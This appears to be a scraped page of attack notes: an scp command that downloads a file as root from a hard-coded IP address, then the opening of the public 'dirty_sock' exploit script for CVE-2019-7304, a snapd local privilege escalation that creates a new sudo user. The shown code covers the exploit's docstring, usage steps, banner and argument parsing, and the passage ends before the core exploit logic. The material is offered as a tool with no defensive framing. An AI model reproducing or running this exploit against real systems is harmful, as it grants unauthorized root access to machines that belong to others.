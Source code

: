 ## ssh download

scp root@51.254.114.246:/home/tmp/tmp .

## (CVE-2019-7304)提权

```python

#!/usr/bin/env python3
#snapd < 2.37
#python3
#ssh-keygen -t rsa -C "111@qq.com"
#cat ~/.ssh/id_rsa.pub#add to `https://login.ubuntu.com/`
#python3 poc.py -u "3385516880@qq.com" -k "../.ssh/id_rsa.pub"
"""
Local privilege escalation via snapd, affecting Ubuntu and others.
v1 of dirty_sock leverages the /v2/create-user API to create a new local user
based on information in an Ubuntu SSO profile. It requires outbound Internet
access as well as the SSH service running and available from localhost.
Try v2 in more restricted environments, but use v1 when possible.
Before running v1, you need to:
    - Create an Ubuntu SSO account (https://login.ubuntu.com/)
    - Login to that account and ensure you have your public SSH key configured
      in your profile.
Run exploit like this:
    dirty_sock.py -u <account email> -k <ssh priv key file>
A new local user with sudo rights will be created using the username from your
Ubuntu SSO profile. The SSH public key will be copied into this users profile.
The exploit will automatically SSH into localhost when finished.
Research and POC by initstring (https://github.com/initstring/dirty_sock)
"""

import argparse
import string
import random
import socket
import re
import sys
import os

BANNER = r'''
      ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
      |  \ | |__/  |   \_/      [__  |  | |    |_/  
      |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                       (version 1)
//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/dirty_sock ||
|| Details || https://initblog.com/2019/dirty-sock     ||
\\=========[]==========================================//
'''


def process_args():
    """Handles user-passed parameters"""
    parser = argparse.ArgumentParser()
    parser.add_argument('--username', '-u', type=str, action='store',
                        required=True, help='Your Ubuntu One account email.')
    parser.add_argument('--key', '-k', type=str, action='store',
                        required=True, help='Full path to the ssh privkey'
                        ' matching the pubkey in your Ubuntu One account.')

    args = parser.parse_args()
```